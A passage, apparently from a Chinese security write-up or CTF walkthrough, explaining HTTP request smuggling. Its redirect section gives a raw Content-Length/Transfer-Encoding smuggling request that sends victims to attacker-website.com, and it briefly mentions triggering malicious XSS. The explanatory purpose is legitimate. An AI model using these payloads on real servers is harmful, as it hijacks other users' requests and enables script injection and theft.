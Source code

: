 ```bash
x=1
```

[![](assets/1704418275-fe5107c3b4f51ae59cc2567834401fe7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161101-a2289e7e-aa0f-1.png)  
随后目标用户访问网站时即可触发恶意 XSS  
[![](assets/1704418275-ae6b27f1e2412cb324246f0084197fb1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161120-ad983710-aa0f-1.png)  
随后成功完成解题：

[![](assets/1704418275-2fb6f431cf70335532b831579da85629.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161133-b50a4b82-aa0f-1.png)

### 重定向类

在日常的 Web 开发中有很多的应用程序都会有从一个 URL 到另一个 URL 的重定向场景，而且大部分都是直接提取的请求包中的 host 头部信息，例如：Apache 和 IIS web 服务器的默认行为，其中对没有尾随斜杠的文件夹的请求接收到重定向到包括尾随斜杠的相同文件夹中

```bash
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

这种行为通常被认为是无害的，但是它可以在请求走私攻击中被利用来将其他用户重定向到外部 URL，例如：

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私的请求将触发重定向到攻击者的网站，这将影响后端服务器处理的下一个用户的请求，例如：

```bash
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

我们可能遇到服务器级重定向大多使用路径为位置标头构造相对于根目录的 URL，例如：

```bash
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```
